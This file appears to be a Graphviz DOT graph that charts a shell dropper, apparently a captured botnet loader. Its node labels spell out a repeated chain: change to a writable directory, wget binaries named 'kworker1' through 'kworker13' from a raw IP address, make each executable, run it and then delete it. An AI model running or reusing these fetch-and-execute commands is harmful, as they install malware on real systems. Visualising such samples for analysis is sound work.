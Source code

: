 digraph {
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 10 [label="||,"];
10 [label="wget http://46.108.26.120/kworker1 "];
10 -> 12 [label=";,"];
12 [label="chmod +x kworker1 "];
12 -> 14 [label=";,"];
14 [label="./kworker1 "];
14 -> 16 [label=";,"];
16 [label="rm -rf kworker1 "];
16 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 28 [label="||,"];
28 [label="wget http://46.108.26.120/kworker2 "];
28 -> 30 [label=";,"];
30 [label="chmod +x kworker2 "];
30 -> 32 [label=";,"];
32 [label="./kworker2 "];
32 -> 34 [label=";,"];
34 [label="rm -rf kworker2 "];
34 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 46 [label="||,"];
46 [label="wget http://46.108.26.120/kworker3 "];
46 -> 48 [label=";,"];
48 [label="chmod +x kworker3 "];
48 -> 50 [label=";,"];
50 [label="./kworker3 "];
50 -> 52 [label=";,"];
52 [label="rm -rf kworker3 "];
52 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 64 [label="||,"];
64 [label="wget http://46.108.26.120/kworker4 "];
64 -> 66 [label=";,"];
66 [label="chmod +x kworker4 "];
66 -> 68 [label=";,"];
68 [label="./kworker4 "];
68 -> 70 [label=";,"];
70 [label="rm -rf kworker4 "];
70 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 82 [label="||,"];
82 [label="wget http://46.108.26.120/kworker5 "];
82 -> 84 [label=";,"];
84 [label="chmod +x kworker5 "];
84 -> 86 [label=";,"];
86 [label="./kworker5 "];
86 -> 88 [label=";,"];
88 [label="rm -rf kworker5 "];
88 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 100 [label="||,"];
100 [label="wget http://46.108.26.120/kworker6 "];
100 -> 102 [label=";,"];
102 [label="chmod +x kworker6 "];
102 -> 104 [label=";,"];
104 [label="./kworker6 "];
104 -> 106 [label=";,"];
106 [label="rm -rf kworker6 "];
106 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 118 [label="||,"];
118 [label="wget http://46.108.26.120/kworker7 "];
118 -> 120 [label=";,"];
120 [label="chmod +x kworker7 "];
120 -> 122 [label=";,"];
122 [label="./kworker7 "];
122 -> 124 [label=";,"];
124 [label="rm -rf kworker7 "];
124 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 136 [label="||,"];
136 [label="wget http://46.108.26.120/kworker8 "];
136 -> 138 [label=";,"];
138 [label="chmod +x kworker8 "];
138 -> 140 [label=";,"];
140 [label="./kworker8 "];
140 -> 142 [label=";,"];
142 [label="rm -rf kworker8 "];
142 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 154 [label="||,"];
154 [label="wget http://46.108.26.120/kworker9 "];
154 -> 156 [label=";,"];
156 [label="chmod +x kworker9 "];
156 -> 158 [label=";,"];
158 [label="./kworker9 "];
158 -> 160 [label=";,"];
160 [label="rm -rf kworker9 "];
160 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 172 [label="||,"];
172 [label="wget http://46.108.26.120/kworker10 "];
172 -> 174 [label=";,"];
174 [label="chmod +x kworker10 "];
174 -> 176 [label=";,"];
176 [label="./kworker10 "];
176 -> 178 [label=";,"];
178 [label="rm -rf kworker10 "];
178 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 190 [label="||,"];
190 [label="wget http://46.108.26.120/kworker11 "];
190 -> 192 [label=";,"];
192 [label="chmod +x kworker11 "];
192 -> 194 [label=";,"];
194 [label="./kworker11 "];
194 -> 196 [label=";,"];
196 [label="rm -rf kworker11 "];
196 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 208 [label="||,"];
208 [label="wget http://46.108.26.120/kworker12 "];
208 -> 210 [label=";,"];
210 [label="chmod +x kworker12 "];
210 -> 212 [label=";,"];
212 [label="./kworker12 "];
212 -> 214 [label=";,"];
214 [label="rm -rf kworker12 "];
214 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 226 [label="||,"];
226 [label="wget http://46.108.26.120/kworker13 "];
226 -> 228 [label=";,"];
228 [label="chmod +x kworker13 "];
228 -> 230 [label=";,"];
230 [label="./kworker13 "];
230 -> 231 [label=";,"];
}
